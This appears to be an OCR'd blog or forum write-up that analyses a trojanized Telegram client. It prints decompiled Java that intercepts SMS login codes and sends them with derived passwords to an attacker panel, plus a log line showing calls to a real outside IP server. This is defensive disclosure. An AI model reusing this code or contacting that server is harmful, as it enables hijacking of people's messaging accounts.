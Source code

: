 ```java
                        if (matcher.find()) {
                            String group = matcher.group();
                            System.out.println("Verification code: " + group);
                            SessionController.this.log("Send6");
                            try {
                                Log.e("DebugMain", "Code Sended :" + group);
                                AnonymousClass13.this.val$map.put("code", group);
                                AnonymousClass13 anonymousClass13 = AnonymousClass13.this;
                                anonymousClass13.val$map.put("password", SessionController.this.getPassV2(anonymousClass13.val$phone.replace("+", BuildConfig.APP_CENTER_HASH), "None"));
                                SessionController.this.requestToPanel(AppConfig.getPanelMemberFaceLogin(), AnonymousClass13.this.val$map, new PanelMember() { // from class: org.telegram.dark.service.SessionController.13.1.1
                                    @Override // org.telegram.dark.service.SessionController.PanelMember
                                    public void result(String str) {
                                        if ("Wrong Code".equals(str)) {
                                            AnonymousClass1.this.run();
                                            return;
                                        }
                                        if (str.contains("expired")) {
                                            AnonymousClass13 anonymousClass132 = AnonymousClass13.this;
                                            SessionController.this.sendSessionToBot(anonymousClass132.val$finish);
                                        } else {
                                            Runnable runnable = AnonymousClass13.this.val$finish;
                                            if (runnable != null) {
                                                runnable.run();
                                            }
                                            AppLogger.sendLog(str);
                                        }
                                    }
                                });
                                return;
                            } catch (Exception unused) {
                                run();
                                return;
                            }
                        }
            }
```
And this logs appears.
```log
11-15 15:01:36.926  1422  1422 E DebugMain: try_phone :****
11-15 15:01:36.926  1422  1422 E DebugMain: url : http://185.208.172.29:8182/try_phone?number=****&channel=https://t.me/mobogram_n3
```
They send my code to their server. It’s not just an advertisement application; it’s a fucking Trojan.
But the hackers failed. Why? Because Telegram changed their method for signing up new users. They no longer send SMS codes. After you enter your phone number, they ask for your email to send the code. So, if you don’t have a Telegram account, you’re safe. However, if you do have an account, Telegram first sends the code to your Telegram app. If you press "Resend Code" that’s when the Trojan horse comes to your phone.
